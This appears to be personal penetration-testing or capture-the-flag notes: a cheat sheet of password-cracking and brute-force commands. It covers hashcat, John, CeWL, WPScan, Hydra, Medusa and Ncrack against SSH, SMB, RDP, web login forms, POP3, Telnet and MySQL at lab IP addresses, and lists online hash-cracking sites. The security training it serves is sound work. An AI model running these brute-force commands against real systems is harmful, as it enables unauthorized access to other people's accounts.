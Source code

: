 ## CEWL
```
cewl -d 2 -m 5 -w docswords.txt url 
```
-d depth
-m minimum word length  
-w output file  
--lowercase lowercase all parsed words (optional)
## HASHCAT
https://hashcat.net/wiki/doku.php?id=example_hashes 
https://mattw.io/hashID/types (HashID match)

```
hashcat -m "number" hash.txt rockyou.txt
```
## WPScan
Brute password with know username
```
wpscan --url http://10.10.10.10 --passwords rockyou.txt --usernames elliot
```
Brute Username
https://github.com/SecurityCompass/wordpress-scripts/blob/master/wp_login_user_enumeration.py
```
python wp_brute.py url -t
```
## JOHN
```
john hash.txt --wordlist=~/rockyou.txt
```
## ONLINE TOOLS
https://hashes.com/en/decrypt/hash
MD5, SHA1, MySQL, NTLM, SHA256, MD5 Email, SHA256 Email, SHA512 hashes
https://crackstation.net/
LM, NTLM, md2, md4, md5, md5(md5_hex), md5-half, sha1, sha224, sha256, sha384, sha512, ripeMD160, whirlpool, MySQL 4.1+ (sha1(sha1_bin)), QubesV3.1BackupDefaults
https://www.dcode.fr/tools-list  
MD4, MD5, RC4 Cipher, RSA Cipher, SHA-1, SHA-256, SHA-512, XOR Cipher  
https://www.md5online.org/md5-decrypt.html (MD5)
https://md5.gromweb.com/ (MD5)

## PROTOCOLS BRUTEFORCE
### Hydra  
TELNET, FTP, HTTP, HTTPS, HTTP-PROXY, SMB, SMBNT, MS-SQL, MYSQL, REXEC, irc, RSH, RLOGIN, CVS, SNMP, SMTP, SOCKS5, VNC, POP3, IMAP, NNTP, PCNFS, XMPP, ICQ, SAP/R3, LDAP2, LDAP3, Postgres, Teamspeak, Cisco auth, Cisco enable, AFP, Subversion/SVN, Firebird, LDAP2, Cisco AAA
    
### Medusa  
AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NetWare NCP, NNTP, PcAnywhere, POP3, PostgreSQL, REXEC, RLOGIN, RSH, SMBNT, SMTP-AUTH, SMTP-VRFY, SNMP, SSHv2, Subversion (SVN), Telnet, VMware Authentication Daemon (vmauthd), VNC, Generic Wrapper, Web Form
    
### Ncrack(Fastest)  
RDP, SSH, http(s), SMB, pop3(s), VNC, FTP, telnet
    
## Brute SSH
ncrack (fastest)
```
ncrack -v -U user.txt -P pass.txt ssh://10.10.10.10:<port> -T5  
```
Hydra
```
hydra -L users.txt -P pass.txt 192.168.0.114 ssh (use if you know username)
```
## Brute SMB
NCRACK
```
ncrack -u qiu -P rockyou.txt -T 5 192.168.0.116 -p smb -v
```

## Using HYDRA
#### HTTP Post Form
u need to identify the exact parameters in the request
```
hydra -L users.txt -P rockyou.txt 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid Username or Password" -V -s 7654
```
to bruteforce a single parameter to get access
```
hydra 10.0.2.22 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l x -P ~/rockyou.txt -t 10 -w 30 
```
#### HTTP Get Form
(Basic Auth)
```
hydra -l admin -P ~/rockyou.txt -f 192.168.143.201 http-get / 
```
#### SSH
(use -l -p if you know username and pass else bruteforce using -L -P)
```
hydra -l kali -P usernames.txt ssh://IP
```
#### RDP
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```    
#### POP3
POP3 Bruteforce with valid username
```
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f 192.168.1.10 -s 55007 pop3
```
#### Telnet
```
hydra -l james -P passwords.txt 10.2.2.23 telnet
```
#### Mysql
```
hydra -l root -P ~/rockyou.txt sunset-midnight mysql -t 4
```